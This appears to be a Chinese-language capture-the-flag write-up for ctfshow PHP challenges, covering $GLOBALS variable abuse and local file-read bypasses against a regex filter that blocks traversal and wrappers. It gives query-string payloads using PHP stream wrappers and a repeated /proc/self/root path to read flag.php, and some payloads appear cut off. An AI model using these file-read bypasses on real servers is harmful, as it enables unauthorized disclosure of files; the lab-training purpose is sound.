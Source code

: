 ### 超全局变量$GLOBALS

官方说明

> 1.  $GLOBALS — 引用全局作用域中可用的全部变量。
> 2.  一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
> 3.  即出现过的全局变量，就可以通过$GLOBALS这个数组取得。
> 4.  PHP生命周期中，定义在函数体外部的所谓全局变量，函数内部是不能直接获得的。

payload: `?v1=ctfshow&v2=GLOBALS`

## web112

```
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

直接用filter伪协议读取文件即可:

```
?file=php: 
```

## web113

和web112相比，多了一个限制条件`filter`

这里可以用web112给出的姿势

```
?file=compress.zlib: 
```

这题给出的预期解有点难懂

```
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php 
```
